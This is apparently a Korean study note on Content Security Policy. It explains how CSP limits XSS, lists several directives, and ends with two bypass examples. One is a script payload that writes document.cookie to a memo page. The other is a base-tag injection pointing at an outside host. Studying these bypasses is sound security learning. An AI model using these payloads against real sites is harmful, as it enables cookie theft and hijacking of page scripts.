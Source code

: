 
# CSP (Content Security Policy)

XSS 공격의 피해를 줄이기 위해, 웹 페이지에 사용될 수 있는 자원의 위치, 출처 등에 제약을 건다.

- Inline Code를 사용할 수 없다.
  - CSP는 인라인 코드 형태를 지양하고, `<script src="alert.js"></script>` 와 같이 src 속성에 코드 경로를 정의하는 방식을 권장한다.
- `<script>` 태그 내에 코드를 삽입하는 것을 포함하여 on* 이벤트 핸들러 속성, javascript: URL 스킴 또한 인라인 코드로 간주하고 허용하지 않는다.

## Policy Directive

|지시문|설명|
|--|--|
|default-src|`-src`로 끝나는 모든 리소스의 기본 동작을 제어|
|img-src|이미지를 로드할 수 있는 출처를 제어|
|base-uri|페이지의 `base` 태그에 나타날 수 있는 URL을 제어|

### 에시 CSP Bypass

default-src가 self라면, 스스로가 접속하도록 유도하면 된다.

```js
<script src="/vuln?param=document.location='/memo?memo='%2bdocument.cookie"></script>
```

### 에시 CSP Bypass Advanced

base-uri 설정이 없다면, base를 바꿀 수 있다.
HTML `base` 태그는 초기경로를 설정해주며 이에따라 경로가 해석되는 기준점을 변경할 수 있다.

```js
<base href="https://cspadvanced.jaeho211.repl.co">
```